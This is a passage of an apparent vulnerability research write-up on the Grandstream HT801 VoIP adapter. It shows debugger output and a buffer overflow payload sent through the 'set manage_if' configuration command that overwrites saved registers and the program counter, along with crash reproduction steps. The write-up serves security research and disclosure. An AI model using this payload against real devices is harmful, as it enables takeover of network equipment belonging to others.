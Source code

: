 ```
0xcecf642c│+0x0018: 0x00000000
0xcecf6430│+0x001c: 0x00000000
───────────────────────────────────────────────────────────────────────── code:arm:ARM ────
       0x9930                  b      0x9938
       0x9934                  mov    r0,  #0
       0x9938                  add    sp,  sp,  #36	; 0x24
 →     0x993c                  pop    {r4,  r5,  r6,  r7,  pc}
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "gs_config", stopped, reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x993c → pop {r4,  r5,  r6,  r7,  pc}


```

### Exploit development

By abusing the aforementioned CVE-2021-37915 we can get root shell access to the device and set up a remote debugging environment for dynamic analysis and exploit development purposes. This approach will simplify the process, as we don't need to handle often complicated emulation dependencies and we can work on the actual hardware.

The following payload overwrites registers R4-R7 with AAAA's and the PC (program counter) with BBBB's:

```
$ python -c 'print(b"set manage_if " + b"A"*52+b"BBBB")' 
b'set manage_if AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'


```

Steps to reproduce the crash from within the configuration shell:

```
GS> config
CONFIG> set manage_if AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
manage_if = AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
CONFIG> commit
Changes are commited.
CONFIG> exit
GS> status
Product Model: HT801
MAC Address: c0:74:ad:36:74:ee
Network:


```

Result in GDB:

```
pwndbg> set arch arm
pwndbg> target extended-remote 192.168.1.128:1234
pwndbg> attach 3351
(...)
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424240 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────[ REGISTERS ]──────────────────────────
 R0   0x0
*R1   0x8915 ◂— andhi  r0, r0, r0
*R2   0xffffffff
```